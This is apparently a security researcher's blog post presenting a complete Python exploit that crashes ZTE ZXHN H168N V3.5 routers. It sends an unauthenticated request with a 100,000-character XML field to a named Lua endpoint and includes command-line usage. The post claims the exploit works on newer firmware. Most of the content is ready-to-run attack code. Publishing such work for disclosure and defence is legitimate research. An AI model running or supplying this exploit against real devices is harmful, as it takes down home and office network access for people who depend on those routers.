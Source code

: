 ```yaml
---
title: "Exploit Writing (KILLx108): Kill ZTE Router "
classes: wide
header:
  teaser: /assets/images/clchdo96yeclu0jp8gj7mf54a.png
ribbon: gray
description: "Exploit for unknown vulnerability in `ZXHN H168N V3.5` to kill the device with one request."
categories:
  - IoT Exploitation
tags:
  - IoT Exploitation
toc: true
---
```


# Introduction
After we had a lot  of information and understand where is the bug in the previous research (You can read it from [here](https://zeyadazima.com/iot%20exploitation/killzte/)). Now, It's time to exploit it and create an exploit.

# The Exploit
It's time to explain how to exploit it. So, previously it seems to be parsing the `XML` request we send and exposing information about `Objects/Parameters` and their values. and whatever `XML`  request we send it's back with the same information. But, even tho we can not access these information if we are not authenticated. But, It's still parsing our request if we are not authenticated. So, Let's try our large value again here. And if we did that we will triage a crash in the router.

- First we imported the needed libraries we going to use
```
import random
import string
import sys
import urllib3
import requests
```

- `requests`: to send our request exploit to the target.
- `urllib3`: I used it here to diable the warings.
- `sys`: to take arguments from the user through the command line.
- `string`: to use it for the random library in generating the payload.
- `random`: to create a payload with random strings from the `strings` library.
<br>
- Second part a function taking 2 arguments
```
def attack(target, porot):

    url = f"{porot}://{target}/common_page/Localnet_WlanBasicAd_WLANSSIDConf_EncryOption_lua.lua"
    try:
        print("[+] Check if the target is alive")
        check = requests.get(url, timeout=10, verify=False)
        if check.status_code == 200 or 301 or 302 or 303:
            print("[+] Target is alive")
            print("[+] Sending request...")
            create = string.ascii_uppercase
            payload = ''.join(random.choice(create) for i in range(100000))
            cookies = {"_TESTCOOKIESUPPORT": "1"}
            Headers = {"Connection": "close",
                       "sec-ch-ua": "\"Google Chrome\";v=\"87\", \" Not;A Brand\";v=\"99\", \"Chromium\";v=\"87\"",
                       "Accept": "application/xml, text/xml, */*; q=0.01", "X-Requested-With": "XMLHttpRequest",
                       "sec-ch-ua-mobile": "?0",
                       "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36",
                       "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
                       "Origin": "https://192.168.1.1", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "cors",
                       "Sec-Fetch-Dest": "empty", "Referer": "https://"+target+"/", "Accept-Encoding": "gzip, deflate",
                       "Accept-Language": "en-US,en;q=0.9"}
            Data = f"<ajax_response_xml_root><INSTIDENTITY>{payload}</INSTIDENTITY></ajax_response_xml_root>"
```

Basically, This function will take 2 arguments which is `protocol`, ethier is `http` or `https` and the `target` you want to exploit it. Then, it will check if the target alive and responded or no. After that in the following lines:
```
create = string.ascii_uppercase
payload = ''.join(random.choice(create) for i in range(100000))
```
it will create a random `100000` length of strings to send it with the request and crash the device.

- Full code:

```
import random
import string
import sys
import urllib3
import requests


urllib3.disable_warnings()


def attack(target, porot):

    url = f"{porot}://{target}/common_page/Localnet_WlanBasicAd_WLANSSIDConf_EncryOption_lua.lua"
    try:
        print("[+] Check if the target is alive")
        check = requests.get(url, timeout=10, verify=False)
        if check.status_code == 200 or 301 or 302 or 303:
            print("[+] Target is alive")
            print("[+] Sending your request...")
            create = string.ascii_uppercase
            payload = ''.join(random.choice(create) for i in range(100000))
            cookies = {"_TESTCOOKIESUPPORT": "1"}
            Headers = {"Connection": "close",
                       "sec-ch-ua": "\"Google Chrome\";v=\"87\", \" Not;A Brand\";v=\"99\", \"Chromium\";v=\"87\"",
                       "Accept": "application/xml, text/xml, */*; q=0.01", "X-Requested-With": "XMLHttpRequest",
                       "sec-ch-ua-mobile": "?0",
                       "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36",
                       "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
                       "Origin": "https://192.168.1.1", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "cors",
                       "Sec-Fetch-Dest": "empty", "Referer": "https://"+target+"/", "Accept-Encoding": "gzip, deflate",
                       "Accept-Language": "en-US,en;q=0.9"}
            Data = f"<ajax_response_xml_root><INSTIDENTITY>{payload}</INSTIDENTITY></ajax_response_xml_root>"
            try:
                att = requests.post(url, headers=Headers, cookies=cookies, data=Data, verify=False, timeout=5)
                print("[-] Target is not Vulnerable")
                sys.exit()
            except requests.exceptions.Timeout:
                print("[+] Target vulnerable and dead now")

            print("[+] Exploit by: Zeyad Azima")

        else:
            print("[-] Your Target is not Alive")
    except Exception as error:
        print("[-]", error)
try:
    if sys.argv[2] == "http" or "https":
        attack(sys.argv[1], sys.argv[2])
    else:
        print("[-] Please enter a valid protocol (http or https)")

except IndexError:
    print("[-] Please Set your target \n ex: exploit.py target protocol")
```

- Usage

```
python3 exploit.py IP http/s
```

![7af704b3c8e1921061c437d260c30ccf.png](/assets/images/7af704b3c8e1921061c437d260c30ccf.png)

# Conclusion
At the end, it was a simple bug, But it's lead to take the device down. The exploit works with the other new and updated versions. You can see the full code here on github.
